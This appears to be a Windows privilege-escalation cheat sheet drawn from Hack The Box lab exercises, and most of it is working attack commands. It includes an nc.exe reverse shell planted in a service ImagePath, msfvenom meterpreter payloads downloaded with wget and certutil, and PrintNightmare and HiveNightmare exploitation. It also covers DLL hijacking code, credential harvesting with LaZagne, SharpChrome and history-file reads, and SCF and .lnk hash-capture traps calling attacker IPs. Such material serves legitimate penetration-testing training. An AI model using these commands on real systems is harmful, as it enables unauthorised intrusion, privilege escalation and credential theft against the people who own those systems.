Using [icacls](https://ss64.com/nt/icacls.html) we can verify the vulnerability and see that the `EVERYONE` and `BUILTIN\Users` groups have been granted full permissions to the directory, and therefore any unprivileged system user can manipulate the directory and its contents.

```powershell
PS C:\htb> icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"

C:\Program Files (x86)\PCProtect\SecurityService.exe BUILTIN\Users:(I)(F)
                                                     Everyone:(I)(F)
                                                     NT AUTHORITY\SYSTEM:(I)(F)
                                                     BUILTIN\Administrators:(I)(F)
                                                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

### Replacing Service Binary

```cmd
C:\htb> cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
C:\htb> sc start SecurityService
```

### Checking Permissions with AccessChk

[AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite to enumerate permissions on the service. The flags we use, in order, are `-q` (omit banner), `-u` (suppress errors), `-v` (verbose), `-c` (specify name of a Windows service), and `-w` (show only objects that have write access).

```cmd
accesschk.exe /accepteula -quvcw WindscribeService
```

### Changing the Service Binary Path

```cmd
sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
```

```cmd
sc stop WindscribeService
```

```cmd
sc start WindscribeService
```

## Weak Service Permissions - Cleanup

### Reverting the Binary Path

```cmd
C:\htb> sc config WindScribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"

[SC] ChangeServiceConfig SUCCESS
```

### Starting the Service Again

If all goes to plan, we can start the service again without an issue.

```cmd
C:\htb> sc start WindScribeService
 
SERVICE_NAME: WindScribeService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 1716
        FLAGS              :
```

### Verifying Service is Running

Querying the service will show it running again as intended.

```cmd
sc query WindScribeService
```

## Unquoted Service Path

Searching for Unquoted Service Paths

```cmd
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

## Permissive Registry ACLs

### Checking for Weak Service ACLs in Registry

```cmd
accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services
```

### Changing ImagePath with PowerShell

```powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```

## Modifiable Registry Autorun Binary

### Check Startup Programs

We can use WMIC to see what programs run at system startup. Suppose we have write permissions to the registry for a given binary or can overwrite a binary listed. In that case, we may be able to escalate privileges to another user the next time that the user logs in.

```powershell
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```

# Kernel Exploits

## Notable Vulnerabilities

1. **MS08-067**
   - **Type:** Remote Code Execution
   - **Affected Systems:** Windows Server 2000, 2003, 2008; Windows XP, Vista
   - **Description:** Exploits RPC request handling in the "Server" service, allowing SYSTEM-level code execution. Often used with port forwarding to bypass firewall restrictions on port 445.
   - **Tools:** Standalone and Metasploit versions available.

2. **MS17-010 (EternalBlue)**
   - **Type:** Remote Code Execution
   - **Affected Systems:** SMBv1 protocol
   - **Description:** Exploits SMB protocol mishandling, leading to SYSTEM-level code execution. Can be used for local privilege escalation if port 445 is blocked.
   - **Tools:** Metasploit Framework and standalone scripts.

3. **ALPC Task Scheduler 0-Day**
   - **Type:** Local Privilege Escalation
   - **Description:** Uses ALPC endpoint method to manipulate DACLs in .job files, allowing SYSTEM-level access via the Spooler service.
<https://blog.grimm-co.com/2020/05/alpc-task-scheduler-0-day.html>

4. **CVE-2021-36934 (HiveNightmare/SeriousSam)**
   - **Type:** Local Privilege Escalation
   - **Affected Systems:** Windows 10
   - **Description:** Allows any user to read sensitive registry hives (SAM, SYSTEM, SECURITY) and extract password hashes.
   - **Tools:** [PoC exploit](https://github.com/GossiTheDog/HiveNightmare) and SecretsDump.py for offline processing.

Checking Permissions on the SAM File

```cmd
icacls c:\Windows\System32\config\SAM
```

```powershell
PS C:\Users\htb-student\Desktop> .\HiveNightmare.exe
```

```shell
impacket-secretsdump -sam SAM-2021-08-07 -system SYSTEM-2021-08-07 -security SECURITY-2021-08-07 local
```

5. **CVE-2021-1675/CVE-2021-34527 (PrintNightmare)**

- **Type:** Remote Code Execution
- **Affected Systems:** All supported Windows versions
- **Description:** Exploits a flaw in RpcAddPrinterDriver, allowing any authenticated user to install print drivers without SeLoadDriverPrivilege, leading to SYSTEM-level remote code execution.
- **Impact:** Affects Domain Controllers, Windows 7, 10, and often Windows servers due to the default running of the Print Spooler service.
- **Mitigation:** Microsoft released a second patch in July 2021; ensure specific registry settings are set to 0 or not defined.
- **Exploits:**
  - [PoC by @cube0x0](https://github.com/cube0x0/CVE-2021-1675) for executing malicious DLLs remotely or locally.
  - C# and PowerShell implementations available.
  - [PowerShell script](https://github.com/calebstewart/CVE-2021-1675) can add a local admin user or execute a custom DLL for a reverse shell.

Checking for Spooler Service

```powershell
PS C:\htb> ls \\localhost\pipe\spoolss


    Directory: \\localhost\pipe


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
                                                  spoolss
```

Adding Local Admin with PrintNightmare PowerShell PoC

```powershell
Set-ExecutionPolicy Bypass -Scope Process
```

```powershell
PS C:\htb> Import-Module .\CVE-2021-1675.ps1
PS C:\htb> Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
```

Confirming New Admin User

```powershell
net user hacker
```

## Examining Installed Updates

To identify missing patches, examine installed updates using the following commands:

```powershell
PS C:\htb> systeminfo
PS C:\htb> wmic qfe list brief
PS C:\htb> Get-Hotfix
```

Viewing Installed Updates with WMI

```shell
wmic qfe list brief
```

## Exploiting CVE-2020-0668

Checking Current User Privileges

```shell
whoami /priv
```

Building the Exploit

We can use [this](https://github.com/RedCursorSecurityConsulting/CVE-2020-0668) exploit for CVE-2020-0668, download it, and open it in Visual Studio within a VM. Building the solution should create the following files.

Compile the following files using Visual Studio:

- `CVE-2020-0668.exe`
- `CVE-2020-0668.exe.config`
- `CVE-2020-0668.pdb`
- `NtApiDotNet.dll`
- `NtApiDotNet.xml`

At this point, we can use the exploit to create a file of our choosing in a protected folder such as C:\Windows\System32. We aren't able to overwrite any protected Windows files. This privileged file write needs to be chained with another vulnerability, such as [UsoDllLoader](https://github.com/itm4n/UsoDllLoader) or [DiagHub](https://github.com/xct/diaghub) to load the DLL and escalate our privileges. However, the UsoDllLoader technique may not work if Windows Updates are pending or currently being installed, and the DiagHub service may not be available.

We can also look for any third-party software, which can be leveraged, such as the Mozilla Maintenance Service. This service runs in the context of SYSTEM and is startable by unprivileged users. The (non-system protected) binary for this service is located below.

- `C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe`

Checking Permissions on Binary

```shell
icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

Generating Malicious Binary

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe
```

Hosting the Malicious Binary

```bash
python3 -m http.server 8080
```

Downloading the Malicious Binary

```powershell
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice.exe
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice2.exe
```

> [!NOTE]
> For this step we need to make two copies of the malicious .exe file. We can just pull it over twice or do it once and make a second copy.
>
> We need to do this because running the exploit corrupts the malicious version of `maintenanceservice.exe` that is moved to (our copy in `c:\Users\htb-student\Desktop` that we are targeting) `c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe` which we will need to account for later. If we attempt to utilize the copied version, we will receive a `system error 216` because the .exe file is no longer a valid binary.

Running the Exploit

```shell
C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

Checking Permissions of New File

```shell
icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'
```

Replacing File with Malicious Binary

```shell
copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

## Metasploit Resource Script

Save the following commands to a file named `handler.rc`:

```plaintext
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <our_ip>
set LPORT 8443
exploit
```

Launching Metasploit with Resource Script

```bash
sudo msfconsole -r handler.rc
```

Starting the Service

```powershell
net start MozillaMaintenance
```

# Vulnerable Services

Enumerating Installed Programs

```cmd
wmic product get name
```

Search for vulnerable software versions.

Here's a more detailed hacking cheatsheet on DLL Injection, including commands, code examples, and tool links:

# DLL Injection

DLL Injection is a technique used to insert code into a running process by loading a Dynamic Link Library (DLL). This allows the injected code to execute within the context of the target process, potentially altering its behavior or accessing its resources. While it has legitimate uses, such as hot patching, it is also exploited by attackers to evade security measures.

## Methods

### LoadLibrary

- **Description**: Utilizes the `LoadLibrary` API to load a DLL into the target process's address space.
- **Legitimate Use Example**:

  ```c
  #include <windows.h>
  #include <stdio.h>

  int main() {
      HMODULE hModule = LoadLibrary("example.dll");
      if (hModule == NULL) {
          printf("Failed to load example.dll\n");
          return -1;
      }
      printf("Successfully loaded example.dll\n");
      return 0;
  }
  ```

### Manual Mapping

- **Description**: An advanced method that manually loads a DLL into a process's memory, resolving imports and relocations without using `LoadLibrary`.
- **Steps**:
  1. Load the DLL as raw data into the injecting process.
  2. Map the DLL sections into the target process.
  3. Inject shellcode to execute the DLL, handling relocations and imports manually.

### Reflective DLL Injection

- **Description**: Uses reflective programming to load a library from memory into a host process. The library implements a minimal PE loader.
- **GitHub Resource**: [Stephen Fewer's Reflective DLL Injection](https://github.com/stephenfewer/ReflectiveDLLInjection)
- **Process**:
  1. Write the library into the target process's address space.
  2. Transfer execution to the library's `ReflectiveLoader` function.
  3. The loader calculates its own memory location, resolves imports, and relocates the image.
  4. Calls the library's entry point function, `DllMain`.

### DLL Hijacking

- **Description**: Exploits the DLL search order to load malicious DLLs when an application doesn't specify the full path.
- **Safe DLL Search Mode**:
  - **Enable/Disable**:
    1. Open `Regedit`.
    2. Navigate to `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager`.
    3. Modify `SafeDllSearchMode` value (1 to enable, 0 to disable).
- **Tools**:
  - [Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer): View running processes and loaded DLLs.
  - PE Explorer: Examine PE files and their imported DLLs.
- **Example Process**:
  1. Identify a DLL the target application is attempting to load but cannot find.
  2. Use tools like Process Explorer to monitor DLL loading activities.
  3. Create a malicious DLL with the same name as the missing one.
  4. Place the malicious DLL in a directory that is searched before the legitimate one.

- **Code Example for Proxying**:

  ```c
  // tamper.c
  #include <stdio.h>
  #include <Windows.h>

  #ifdef _WIN32
  #define DLL_EXPORT __declspec(dllexport)
  #else
  #define DLL_EXPORT
  #endif

  typedef int (*AddFunc)(int, int);

  DLL_EXPORT int Add(int a, int b) {
      HMODULE originalLibrary = LoadLibraryA("library.o.dll");
      if (originalLibrary != NULL) {
          AddFunc originalAdd = (AddFunc)GetProcAddress(originalLibrary, "Add");
          if (originalAdd != NULL) {
              printf("============ HIJACKED ============\n");
              int result = originalAdd(a, b);
              printf("= Adding 1 to the sum to be evil\n");
              result += 1;
              printf("============ RETURN ============\n");
              return result;
          }
      }
      return -1;
  }
  ```

- **Invalid Libraries**:
  - **Description**: Replace a valid library the program is attempting to load but cannot find with a crafted library.
  - **Code Example**:

    ```c
    #include <stdio.h>
    #include <Windows.h>

    BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
        switch (ul_reason_for_call) {
        case DLL_PROCESS_ATTACH:
            printf("Hijacked... Oops...\n");
            break;
        case DLL_PROCESS_DETACH:
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
            break;
        }
        return TRUE;
    }
    ```

## Tools and Resources

- **Process Explorer**: Part of Microsoft's Sysinternals suite, provides detailed information on running processes and their loaded DLLs.
- **PE Explorer**: A tool to open and examine PE files, revealing imported DLLs and functions.
- **Procmon (Process Monitor)**: Useful for tracking DLL loading and identifying missing DLLs.

# Credential Hunting

Credentials are crucial for privilege escalation and gaining access to systems. They can be found in various locations on a system, often stored insecurely.

## Application Configuration Files

- **Search for Passwords in Config Files**: Applications may store passwords in cleartext within configuration files. Use `findstr` to locate these files.

  ```powershell
  findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
  ```

  - **Sensitive IIS Information**: Check `web.config` files for credentials, typically found at `C:\inetpub\wwwroot\web.config`.

## Dictionary Files

- **Chrome Dictionary Files**: Users may add passwords to dictionary files to avoid spellcheck underlines.

  ```powershell

gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password

  ```

## Unattended Installation Files

- **Unattend.xml**: These files may contain plaintext or base64 encoded passwords.

```cmd
dir Windows\Panther\unattend.xml
```

  ```xml
  <AutoLogon>
      <Password>
          <Value>local_4dmin_p@ss</Value>
          <PlainText>true</PlainText>
      </Password>
  </AutoLogon>
  ```

## PowerShell History File

- **Location**: `C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`.
- **Read PowerShell History**:

  ```powershell

gc (Get-PSReadLineOption).HistorySavePath

  ```
- **Retrieve All Accessible History Files**:
  ```powershell
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
  ```

## PowerShell Credentials

- **Decrypting PowerShell Credentials**: Credentials stored using DPAPI can be decrypted if executed in the same user context.

  ```powershell

$credential = Import-Clixml -Path 'C:\scripts\pass.xml'
$credential.GetNetworkCredential().username
$credential.GetNetworkCredential().password

  ```
# Other Files

## Tools and Resources
- **Snaffler**: Use [Snaffler](https://github.com/SnaffCon/Snaffler) to crawl network share drives for interesting file extensions like `.kdbx`, `.vmdk`, `.vdhx`, `.ppk`, etc.

## Manually Searching the File System for Credentials

We can search the file system or share drive(s) manually using the following commands from [this cheatsheet](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/).
### Search File Contents for Strings

- **Example 1**:
  ```cmd
  cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt
  ```

- **Example 2**:

  ```cmd
  findstr /si password *.xml *.ini *.txt *.config
  ```

- **Example 3**:

  ```cmd
  findstr /spin "password" *.*
  ```

- **Using PowerShell**:

  ```powershell

select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password

  ```

### Search for File Extensions

- **Example 1**:
  ```cmd
  dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
  ```

- **Example 2**:

  ```cmd
  where /R C:\ *.config
  ```

- **Using PowerShell**:

  ```powershell

Get-ChildItem C:\ -Recurse -Include *.rdp,*.config, *.vnc,*.cred -ErrorAction Ignore

  ```

## Sticky Notes Passwords

- **Location**: `C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite`
- **Viewing Sticky Notes Data**:
  - Use [DB Browser for SQLite](https://sqlitebrowser.org/dl/) to view the `Text` column in the `Note` table.
  - **Using PowerShell** with [PSSQLite module](https://github.com/RamblingCookieMonster/PSSQLite):
    ```powershell
  Set-ExecutionPolicy Bypass -Scope Process
  Import-Module .\PSSQLite.psd1
  $db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
  Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
    ```

- **Using `strings` Command**:
  ```shell
  strings plum.sqlite-wal
  ```

## Other Files of Interest

- **Potential Credential Files**:

  ```shell
  %SYSTEMDRIVE%\pagefile.sys
  %WINDIR%\debug\NetSetup.log
  %WINDIR%\repair\sam
  %WINDIR%\repair\system
  %WINDIR%\repair\software, %WINDIR%\repair\security
  %WINDIR%\iis6.log
  %WINDIR%\system32\config\AppEvent.Evt
  %WINDIR%\system32\config\SecEvent.Evt
  %WINDIR%\system32\config\default.sav
  %WINDIR%\system32\config\security.sav
  %WINDIR%\system32\config\software.sav
  %WINDIR%\system32\config\system.sav
  %WINDIR%\system32\CCM\logs\*.log
  %USERPROFILE%\ntuser.dat
  %USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
  %WINDIR%\System32\drivers\etc\hosts
  C:\ProgramData\Configs\*
  C:\Program Files\Windows PowerShell\*
  ```

Understanding how to manually search for these files is crucial, as automated scripts may not cover all potential files of interest.

# Further Credential Theft

## Cmdkey Saved Credentials

- **Description**: Use `cmdkey` to manage stored credentials for remote connections.
- **Commands**:
  - List saved credentials: `cmdkey /list`
  - Run commands as another user: `runas /savecred /user:username "COMMAND HERE"`
- **Tools**: [cmdkey](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey)

## Browser Credentials

- **Description**: Retrieve saved credentials from Google Chrome using SharpChrome.
- **Commands**:
  - Retrieve Chrome logins: `.\SharpChrome.exe logins /unprotect`
- **Tools**: [SharpChrome](https://github.com/GhostPack/SharpDPAPI)

## Password Managers

- **Description**: Access password managers like KeePass to extract and crack password hashes.
- **Commands**:
  - Extract KeePass hash: `python2.7 keepass2john.py file.kdbx`
  - Crack hash with Hashcat: `hashcat -m 13400 hashfile wordlist`
- **Tools**: [keepass2john](https://gist.github.com/HarmJ0y), [Hashcat](https://github.com/hashcat), [John the Ripper](https://github.com/openwall/john)

## Email

- **Description**: Search emails for credentials using MailSniper.
- **Tools**: [MailSniper](https://github.com/dafthack/MailSniper)

## More Fun with Credentials

- **Description**: Use LaZagne to retrieve credentials from various software.
- **Commands**:
  - View help menu: `.\lazagne.exe -h`
  - Run all modules: `.\lazagne.exe all`
- **Tools**: [LaZagne](https://github.com/AlessandroZ/LaZagne)

## Even More Fun with Credentials

- **Description**: Extract saved session credentials using SessionGopher.
- **Commands**:
  - Run SessionGopher: `Invoke-SessionGopher -Target TARGET`
- **Tools**: [SessionGopher](https://github.com/Arvanaghi/SessionGopher)

## Clear-Text Password Storage in the Registry

- **Description**: Enumerate registry for clear-text passwords.
- **Commands**:
  - Enumerate Autologon: `reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"`
  - Enumerate PuTTY sessions: `reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions`
- **Tools**: [Introduction to Windows Command Line](https://academy.hackthebox.com/module/167/section/1623)

## Wifi Passwords

- **Description**: Retrieve saved wireless network passwords.
- **Commands**:
  - List wireless profiles: `netsh wlan show profile`
  - Show wireless key: `netsh wlan show profile network_name key=clear`

# Citrix Breakout

## Overview

Organizations use virtualization platforms like Citrix to provide remote access while implementing "lock-down" measures to enhance security. Despite these restrictions, threat actors can potentially "break-out" of these environments.

## Basic Methodology for Break-out

1. Gain access to a `Dialog Box`.
2. Exploit the Dialog Box for `command execution`.
3. `Escalate privileges` for higher access.

## Bypassing Path Restrictions

- **Objective**: Access restricted directories.
- **Method**: Use Windows dialog boxes (e.g., from MS Paint) to enter paths directly.
- **Example**: Enter `\\127.0.0.1\c$\users\pmorgan` in the dialog box to access directories.
- **Tools**: MS Paint, Notepad, Wordpad.

## Accessing SMB Share from Restricted Environment

- **Objective**: Transfer files despite restrictions.
- **Method**: Use UNC paths in dialog boxes to access SMB shares.
- **Command**: Start SMB server with `smbserver.py`.
- **Example**: Access share with `\\10.13.38.95\share` in Paint's dialog box.

## Alternate Explorer

- **Objective**: Bypass File Explorer restrictions.
- **Tools**: Use `Q-Dir` or `Explorer++` to navigate restricted directories.
- **Link**: [Explorer++](https://explorerplusplus.com/)

## Alternate Registry Editors

- **Objective**: Edit registry despite restrictions.
- **Tools**: Use alternative editors like [Simpleregedit](https://sourceforge.net/projects/simpregedit/), [Uberregedit](https://sourceforge.net/projects/uberregedit/), [SmallRegistryEditor](https://sourceforge.net/projects/sre/).

## Modify Existing Shortcut File

- **Objective**: Gain access by modifying shortcuts.
- **Steps**:
  1. Right-click shortcut, select `Properties`.
  2. Modify `Target` field to desired executable.
  3. Execute shortcut to spawn cmd.

## Script Execution

- **Objective**: Execute scripts to bypass restrictions.
- **Method**: Create and run scripts like `.bat` files.
- **Example**: Create `evil.bat` with `cmd` command to open Command Prompt.

## Escalating Privileges

- **Objective**: Identify and exploit system vulnerabilities.
- **Tools**: Use [Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS), [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1).
- **Example**: Use `PowerUp.ps1` to create `UserAdd.msi` for privilege escalation.

## Bypassing UAC

- **Objective**: Overcome User Account Control restrictions.
- **Method**: Use UAC bypass scripts.
- **Example**: Import and execute `Bypass-UAC.ps1` with `Bypass-UAC -Method UacMethodSysprep`.

# Interacting with Users

## Overview

Users can be a weak link in security. Techniques to exploit this include capturing credentials through network sniffing or placing malicious files on shared drives to capture user password hashes.

## Traffic Capture

- **Objective**: Capture network traffic to obtain credentials.
- **Tools**: `Wireshark`, `tcpdump`, [net-creds](https://github.com/DanMcInerney/net-creds).
- **Example**: Capture cleartext FTP credentials using Wireshark.
- **Command**: Run `tcpdump` or `Wireshark` to monitor traffic.

## Process Command Lines

- **Objective**: Monitor command lines for credentials.
- **Script**: Capture process command lines every two seconds and compare for differences.
- **Example**: Use PowerShell script to reveal passwords passed in command lines.

```powershell
while($true) {
  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2
}
```

## Vulnerable Services

- **Objective**: Exploit vulnerable applications for privilege escalation.
- **Example**: [CVE-2019–15752](https://medium.com/@morgan.henry.roman/elevation-of-privilege-in-docker-for-windows-2fd8450b478e) in Docker Desktop allows writing malicious executables for privilege escalation.

## SCF on a File Share

- **Objective**: Capture NTLMv2 password hashes using SCF files.
- **Tools**: [Responder](https://github.com/lgandx/Responder), [Inveigh](https://github.com/Kevin-Robertson/Inveigh).
- **Example**: Create a malicious SCF file to capture hashes when accessed.

```shell
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

- **Command**: Start Responder to capture hashes.

```shell
sudo responder -wrf -v -I tun0
```

## Capturing Hashes with a Malicious .lnk File

- **Objective**: Use .lnk files to capture hashes on Server 2019.
- **Tools**: [Lnkbomb](https://github.com/dievus/lnkbomb).
- **Example**: Generate a malicious .lnk file using PowerShell.

```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

# Miscellaneous Techniques

## Living Off The Land Binaries and Scripts (LOLBAS)

- **LOLBAS Project**: Utilizes Microsoft-signed binaries, scripts, and libraries for unexpected functionalities like code execution, file transfers, and UAC bypass.
- **Certutil.exe**:
  - **File Transfer**: `certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat`
  - **Encoding**: `certutil -encode file1 encodedfile`
  - **Decoding**: `certutil -decode encodedfile file2`
- **Rundll32.exe**: Executes DLL files, potentially for reverse shells.

## Always Install Elevated

- **Policy Setting**: Enables installation with elevated privileges via Local Group Policy.
- **Enumeration**:
  - `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`
  - `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
- **Exploitation**: Create a malicious MSI package with `msfvenom` and execute it to gain SYSTEM privileges.
  - **Command**: `msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart`
  - **Listener**: `nc -lnvp 9443`

## CVE-2019-1388

- **Vulnerability**: Exploits Windows Certificate Dialog to run a browser as SYSTEM.
- **Exploitation Steps**:
  - Run `hhupd.exe` as administrator.
  - Click on certificate hyperlink to open a browser as SYSTEM.
  - Use `View page source` to launch `cmd.exe` as SYSTEM.

## Scheduled Tasks

- **Enumeration**:
  - `schtasks /query /fo LIST /v`
  - `Get-ScheduledTask | select TaskName,State`
- **Exploitation**: Look for writable directories like `C:\Scripts` to modify scripts executed by scheduled tasks.

## User/Computer Description Field

- **Local User Enumeration**: `Get-LocalUser`
- **Computer Description**: `Get-WmiObject -Class Win32_OperatingSystem | select Description`

## Mount VHDX/VMDK

- **File Types**: `.vhd`, `.vhdx`, `.vmdk` for virtual hard disks.
- **Mounting on Linux**:
  - VMDK: `guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmdk`
  - VHD/VHDX: `guestmount --add WEBSRV10.vhdx --ro /mnt/vhdx/ -m /dev/sda1`
- **Windows Mounting**: Use right-click options or PowerShell cmdlet `Mount-VHD`.
- **Hash Retrieval**: Use `secretsdump.py` to extract password hashes from registry hives.

# Windows Server

For an older OS like Windows Server 2008, we can use an enumeration script like [Sherlock](https://github.com/rasta-mouse/Sherlock) to look for missing patches. We can also use something like [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester), which takes the results of the `systeminfo` command as an input, and compares the patch level of the host against the Microsoft vulnerability database to detect potential missing patches on the target. If an exploit exists in the Metasploit framework for the given missing patch, the tool will suggest it. Other enumeration scripts can assist us with this, or we can even enumerate the patch level manually and perform our own research. This may be necessary if there are limitations in loading tools on the target host or saving command output.

## Enumeration and Exploitation

### Querying Current Patch Level

- **WMI Command**: `wmic qfe` to list installed hotfixes and identify missing patches.

### Running Sherlock

- **Sherlock Script**: Used to identify missing patches and vulnerabilities.
  - **Command**:

    ```powershell
    Set-ExecutionPolicy bypass -Scope process
    Import-Module .\Sherlock.ps1
    Find-AllVulns
    ```

## Obtaining a Meterpreter Shell

- **Metasploit smb_delivery Module**: Used to deliver a Meterpreter reverse shell.
  - **Setup**:

    ```shell
    use exploit/windows/smb/smb_delivery
    set SRVHOST 10.10.14.3
    set LHOST 10.10.14.3
    set LPORT 4444
    exploit
    ```

  - **Execution on Target**: `rundll32.exe \\10.10.14.3\lEUZam\test.dll,0`

## Privilege Escalation

- **MS10-092 Exploit**: Use the Task Scheduler XML Privilege Escalation vulnerability.
  - **Setup**:

    ```shell
    use exploit/windows/local/ms10_092_schelevator
    set SESSION 1
    set LHOST 10.10.14.3
    set LPORT 4443
    exploit
    ```

  - **Migration to 64-bit Process**: Ensure the Meterpreter session is running in a 64-bit process for compatibility.

### Receiving Elevated Reverse Shell

- **Successful Exploit**: Results in a Meterpreter session with `NT AUTHORITY\SYSTEM` privileges, allowing for further post-exploitation activities.

# Windows Desktop

## Enumeration and Exploitation

### Install Python Dependencies (Local VM)

- **Dependencies for Windows-Exploit-Suggester**:

  ```shell
  sudo wget https://files.pythonhosted.org/packages/28/84/27df240f3f8f52511965979aad7c7b77606f8fe41d4c90f2449e02172bb1/setuptools-2.0.tar.gz
  sudo tar -xf setuptools-2.0.tar.gz
  cd setuptools-2.0/
  sudo python2.7 setup.py install

  sudo wget https://files.pythonhosted.org/packages/42/85/25caf967c2d496067489e0bb32df069a8361e1fd96a7e9f35408e56b3aab/xlrd-1.0.0.tar.gz
  sudo tar -xf xlrd-1.0.0.tar.gz
  cd xlrd-1.0.0/
  sudo python2.7 setup.py install
  ```

### Gathering Systeminfo Command Output

- **Command**: `systeminfo` to capture system details for analysis.

### Updating the Local Microsoft Vulnerability Database

- **Command**: `sudo python2.7 windows-exploit-suggester.py --update` to update the vulnerability database.

### Running Windows Exploit Suggester

- **Command**:

  ```shell
  python2.7 windows-exploit-suggester.py --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt
  ```

  - Identifies potential privilege escalation vulnerabilities.

### Exploiting MS16-032 with PowerShell PoC

- **PowerShell Exploit**: Use a PowerShell script to exploit MS16-032 for privilege escalation.
  - **Commands**:

    ```powershell
    Set-ExecutionPolicy bypass -scope process
    Import-Module .\Invoke-MS16-032.ps1
    Invoke-MS16-032
    ```

### Spawning a SYSTEM Console

- **Result**: Successful exploitation results in a SYSTEM-level command prompt.
  - **Command**: `whoami` confirms elevated privileges as `nt authority\system`.
